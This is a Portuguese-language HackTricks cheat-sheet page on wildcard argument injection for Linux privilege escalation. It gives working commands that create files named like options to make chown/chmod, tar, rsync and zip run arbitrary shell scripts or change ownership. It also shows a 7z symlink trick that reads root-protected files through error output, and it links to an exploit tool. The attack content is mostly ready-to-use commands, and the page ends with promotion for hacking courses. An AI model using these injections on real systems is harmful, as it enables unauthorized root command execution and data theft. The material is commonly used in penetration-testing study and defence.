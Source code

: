 ## chown, chmod

Você pode **indicar qual proprietário de arquivo e permissões você deseja copiar para o restante dos arquivos**
```bash
touch "--reference=/my/own/path/filename"
```
Você pode explorar isso usando [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(ataque combinado)_\
Mais informações em [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## Tar

**Executar comandos arbitrários:**
```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Você pode explorar isso usando [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(ataque tar)_\
Mais informações em [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## Rsync

**Executar comandos arbitrários:**
```bash
Interesting rsync option from manual:

-e, --rsh=COMMAND           specify the remote shell to use
--rsync-path=PROGRAM    specify the rsync to run on remote machine
```

```bash
touch "-e sh shell.sh"
```
Você pode explorar isso usando [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(_ataque _rsync)_\
Mais informações em [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## 7z

No **7z**, mesmo usando `--` antes de `*` (note que `--` significa que a entrada seguinte não pode ser tratada como parâmetros, então apenas caminhos de arquivo neste caso), você pode causar um erro arbitrário para ler um arquivo, então se um comando como o seguinte estiver sendo executado pelo root:
```bash
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
```
E você pode criar arquivos na pasta onde isso está sendo executado, você poderia criar o arquivo `@root.txt` e o arquivo `root.txt` sendo um **symlink** para o arquivo que você deseja ler:
```bash
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```
Então, quando **7z** é executado, ele tratará `root.txt` como um arquivo contendo a lista de arquivos que deve comprimir (é isso que a existência de `@root.txt` indica) e quando o 7z ler `root.txt`, ele lerá `/file/you/want/to/read` e **como o conteúdo deste arquivo não é uma lista de arquivos, ele gerará um erro** mostrando o conteúdo.

_Mais informações nos Write-ups da caixa CTF do HackTheBox._

## Zip

**Executar comandos arbitrários:**
```bash
zip name.zip files -T --unzip-command "sh -c whoami"
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}